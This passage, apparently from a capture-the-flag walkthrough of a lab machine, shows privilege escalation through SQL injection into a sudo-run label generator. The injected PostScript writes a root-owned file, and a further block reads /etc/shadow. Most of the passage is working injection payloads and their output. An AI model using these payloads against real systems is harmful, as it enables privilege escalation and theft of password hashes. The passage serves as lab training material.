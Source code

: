 
    /inputfile (output1.txt) (r) file def
    inputfile 100 string readstring
    pop
    inputfile closefile

    /outfile2 (output2.txt) (w) file def
    outfile2 exch writestring
    outfile2 closefile 



It write a file, then reads that file and writes the results to another
file. I can start with writing a file with just the last block replacing
`exch` with some static text:



    /outfile (output.txt) (w) file def
    outfile (this is a test) writestring
    outfile closefile



Putting that into the injection:



    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
    > 
    > /outfile (output.txt) (w) file def
    > outfile (this is a test) writestring
    > outfile closefile
    > 
    > (test", 2,3,4,5,6,7'
    Fetching order...
    Generating PostScript file...
    Generating PDF (until the printer gets fixed...)
    Documents available in /tmp/tmpce7s4u1wprintgen



I don't care about the PDF output, but rather, that there's an
`output.txt` in the current directory:



    neil@bookworm:~$ ls -l output.txt 
    -rw-r--r-- 1 root root 14 Jan 17 18:41 output.txt
    neil@bookworm:~$ cat output.txt 
    this is a test



#### Read POC

I spent a long time with ChatGPT trying to get a POC that would read a
file into the PDF without success. I'll end up back with the POC from
above, this time grabbing the second and third blocks:



    /inputfile (/etc/shadow) (r) file def
    inputfile 10000 string readstring
    pop
    inputfile closefile
